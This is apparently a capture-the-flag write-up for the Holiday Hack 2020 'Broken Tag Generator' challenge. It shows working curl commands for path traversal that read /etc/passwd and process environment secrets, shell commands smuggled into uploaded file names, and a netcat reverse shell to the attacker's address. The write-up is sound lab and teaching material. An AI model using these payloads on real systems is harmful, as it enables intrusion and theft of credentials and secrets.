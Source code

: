 # Objective 8: Broken Tag Generator

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

## Solution using Path Traversal

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```
Using this the value the environment variable can be obtained like this:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
So the `GREETZ` variable contains **JackFrostWasHere**

## Solution using RCE

The [Ruby application code](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-8/app.rb) can be downloaded through the above path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../app/lib/app.rb --output app.rb
```
This code allows to place uploaded files in a chosen place on the remote system using the ZIP upload function.
Furthermore the application starts the `convert` tool from  ImageMagick which makes it possible to inject shell commands:
```
jsw@io:*$ touch \'\`env\>joergen\`\;\'.jpg
jsw@io:*$ zip joergen.zip \'\`env\>joergen\`\;\'.jpg
  adding: '`env>joergen`;'.jpg (stored 0%)
jsw@io:*$ curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
["7ebc17be-a3ea-48f5-95ea-730e1b006520.jpg"]
jsw@io:*$ sleep 5
jsw@io:*$ curl https://tag-generator.kringlecastle.com/image?id=../tmp/joergen
RUBY_MAJOR=2.7
GREETZ=JackFrostWasHere
[..]
```

## Full Interactive Remote Shell
Create a file for executing a reverse shell named `t.jpg`:
```
nc <your IP address> 4444 -e /bin/bash
```
Create an executor file:
```
touch \'\`bash\ t.jpg\`\;\'.jpg
```
Create the ZIP file including these two file for upload:
```
zip joergen.zip t.jpg \'\`bash\ t.jpg\`\;\'.jpg
```
Start the reverse shell listener on your local device:
```
nc -lnvp 4444
```
Get it started:
```
curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
```
Now you have in the reverse shell listener an interactive shell as user `app`.

```
jsw@io:~/Documents/Hacking-Challenges/Holidayhack-2020/objective-8/test2$ touch \'\;env\>joergen\;#\'.jpg 
jsw@io:~/Documents/Hacking-Challenges/Holidayhack-2020/objective-8/test2$ zip joergen.zip \'\;env\>joergen\;#\'.jpg 
  adding: ';env>joergen;#'.jpg (stored 0%)
jsw@io:~/Documents/Hacking-Challenges/Holidayhack-2020/objective-8/test2$ curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
["e7807d92-8854-48c2-bd81-d916f5cace1c.jpg"]jsw@io:~/Documents/Hacking-Challenges/Holidayhack-2020/objective-8/test2$ curl https://tag-generator.kringlecastle.com/image?id=../tmp/joergen
RUBY_MAJOR=2.7

```
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTI5MzcyMDQzOSwxMzk1Nzk0ODI0LC0xNT
k5MjU0NDE1LC02MTkyOTc0MTEsLTU3NjYxMDA3NSwyMTA3NTI5
ODQ2LDkyMjE0NDM1LC0zOTg0OTE0NjEsMTE1MTU1Njg5NiwyMz
g0NjAyNzIsMTkzMzM2MTc4NywtMTQ2NzYxNTI2MiwtMjQzOTQy
ODY2LDEzMTIwNTY0NTMsOTIwNDU1ODY1LC0xNjA2MDc4MDQwXX
0=
-->